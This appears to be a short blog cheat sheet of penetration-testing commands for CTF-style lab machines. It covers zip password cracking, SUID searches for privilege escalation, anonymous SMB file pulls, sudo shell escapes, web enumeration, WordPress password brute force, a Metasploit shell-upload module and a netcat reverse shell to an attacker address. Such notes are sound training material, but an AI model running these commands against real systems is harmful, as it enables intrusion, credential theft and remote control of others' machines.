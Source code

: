 ```yaml
---
title: 靶机日记 | ToolKits
categories:
  - Technical
tags:
  - Digilal Design
  - EEEE
date: 2021-02-25 14:14:24
---
```


### 1. Crack the Passwd of Zip Package

```bash
zip2john backup.zip > passwd.txt
john passwd.txt
```

### 2. Find

1. Find file with suid

```bash
find / -perm -u=s 2>/dev/null
```

If we got it ，we can go to [GTFobins](https://gtfobins.github.io) to check out whether it is possible for Privilege Escalation

2. Find file for special group

``` bash
find / -type f -group bugtracker 2>/dev/null
```

3. Find file

```bash
# linux
find / -name "user.txt"
```

```powershell
# powershell
Get-ChildItem  -Recurse –Filter user.txt
```

<!-- more -->

### 3. smb

If the target machine with port 445 opened, we can check out the file under directory if no auth：

```bash
smbclient -N -L ////ip
```

and then dump file from directory:

```bash
smbclient  \\\\10.10.10.27\\backup/
get filename
```

### 4. Upgrade Shell to tty

```bash
SHELL=/bin/bash script -q /dev/null
# or
python3 -c "import pty;pty.spawn('/bin/bash')"
```

### 5. Sudo

view the special permissions of current role:

```bash
sudo -l
```

When a command can be executed with sudo , we can use this command to open a new bash shell to get root privilege .

For example,  `! /bin/bash` in Vim.

### 6. Website

Search for subdirectory

```bash
gobuster dir -u http://10.10.10.29 -w /usr/share/wordlists/dirb/big.txt
```

Analyze

```bash
nikto -host http://10.10.10.28 -o _28.html
```

#### WordPress

Enumerate accounts and Brute Force the password

```bash
wpscan --url http://10.10.10.29/wordpress --enumerate
```

```bash
wpscan --url http://10.10.10.29/wordpress -U users.txt -P backupPasswords
```

use metasploit

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

### NetCat

Reverse:

```bash
nc.exe -a "-e cmd.exe 10.10.16.4 7777"
```

Listen:

```zsh
nc -lvpn 4444
```

